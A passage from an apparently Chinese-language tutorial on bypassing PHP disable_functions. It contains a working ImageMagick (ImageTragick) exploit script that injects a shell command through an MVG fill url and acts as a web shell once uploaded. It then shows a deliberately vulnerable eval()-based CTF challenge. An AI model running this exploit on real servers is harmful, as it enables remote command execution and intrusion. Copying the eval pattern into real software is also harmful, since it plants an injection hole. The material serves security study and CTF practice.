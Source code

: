此时我们便可以通过攻击ImageMagick绕过disable_functions来执行命令。

将一下利用脚本上传到目标主机上有权限的目录（/var/tmp/exploit.php）：

```php
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";

$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];
if ($command == '') {
   $command = 'id';
}

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
?>
```

然后包含该脚本并传参执行命令即可。





------

## 命令执行CTF题目

### 例题一

题目源代码

```php
<?php

include'flag.php';

if(isset($_GET['code'])){
   $code=$_GET['code'];
   if(strlen($code)>50){
       die("Too Long.");
  }
   if(preg_match("/[A-Za-z0-9_]+/",$code)){
       die("Not Allowed.");
  }
   @eval($code);
}else{
   highlight_file(__FILE__);
}
//$hint = "php function getFlag() to get flag";
?> 

```
